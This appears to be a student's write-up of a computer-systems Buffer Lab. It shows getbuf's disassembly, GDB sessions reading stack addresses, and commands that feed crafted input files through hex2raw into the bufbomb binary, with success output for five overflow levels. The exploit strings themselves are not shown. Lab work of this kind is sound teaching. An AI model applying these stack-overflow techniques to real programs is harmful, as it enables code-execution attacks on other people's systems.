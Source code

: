# Buffer Lab

- Userid = mdzz
- Cookie = 0x761b76ec

Assemble and disassemble the injected file, usied in last two phases:
```sh
unix> gcc -m32 -c example.S
unix> objdump -d example.o > example.d
```

```Disassembly
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret
```

## Level 0: Candle (10 pts)

```sh
$ cat candle.txt|./hex2raw|./bufbomb -u mdzz
Userid: mdzz
Cookie: 0x761b76ec
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```

## Level 1: Sparkler (10 pts)

```sh
$ cat sparkler.txt|./hex2raw|./bufbomb -u mdzz
Userid: mdzz
Cookie: 0x761b76ec
Type string:Fizz!: You called fizz(0x761b76ec)
VALID
NICE JOB!
```

## Level 2: Firecracker (15 pts)

Use GDB to get the information needed to construct exploit string.

```sh
(gdb) run -u mdzz
Starting program: /home/zna2/Desktop/computer-systems/labs/Lab4-Buffer Lab/buflab-handout/bufbomb -u mdzz
Userid: mdzz
Cookie: 0x761b76ec

Breakpoint 1, 0x080491fa in getbuf ()
(gdb) disas
Dump of assembler code for function getbuf:
   0x080491f4 <+0>:	push   %ebp
   0x080491f5 <+1>:	mov    %esp,%ebp
   0x080491f7 <+3>:	sub    $0x38,%esp
=> 0x080491fa <+6>:	lea    -0x28(%ebp),%eax
   0x080491fd <+9>:	mov    %eax,(%esp)
   0x08049200 <+12>:	call   0x8048cfa <Gets>
   0x08049205 <+17>:	mov    $0x1,%eax
   0x0804920a <+22>:	leave  
   0x0804920b <+23>:	ret    
End of assembler dump.
(gdb) print /x $esp
$1 = 0x55683098
(gdb) print /x $ebp
$2 = 0x556830d0
```

```sh
$ cat Firecracker.txt |./hex2raw| ./bufbomb -u mdzz
Userid: mdzz
Cookie: 0x761b76ec
Type string:Bang!: You set global_value to 0x761b76ec
VALID
NICE JOB!

```

## Level 3: Dynamite (20 pts)

```
(gdb) break getbuf
Breakpoint 1 at 0x80491fa
(gdb) run -u mdzz
Starting program: /home/zna2/Desktop/computer-systems/labs/Lab4-Buffer Lab/buflab-handout/bufbomb -u mdzz
Userid: mdzz
Cookie: 0x761b76ec

Breakpoint 1, 0x080491fa in getbuf ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
(gdb) x /x $ebp
0x556830d0 <_reserved+1036496>:	0x55683100
```

```sh
$ cat Dynamite.txt|./hex2raw|./bufbomb -u mdzz
Userid: mdzz
Cookie: 0x761b76ec
Type string:Boom!: getbuf returned 0x761b76ec
VALID
NICE JOB!

```

## Level 4: Nitroglycerin (10 pts)

```sh
$ cat Nitroglycerin.txt|./hex2raw -n|./bufbomb -u mdzz -n
Userid: mdzz
Cookie: 0x761b76ec
Type string:KABOOM!: getbufn returned 0x761b76ec
Keep going
Type string:KABOOM!: getbufn returned 0x761b76ec
Keep going
Type string:KABOOM!: getbufn returned 0x761b76ec
Keep going
Type string:KABOOM!: getbufn returned 0x761b76ec
Keep going
Type string:KABOOM!: getbufn returned 0x761b76ec
VALID
NICE JOB!
```
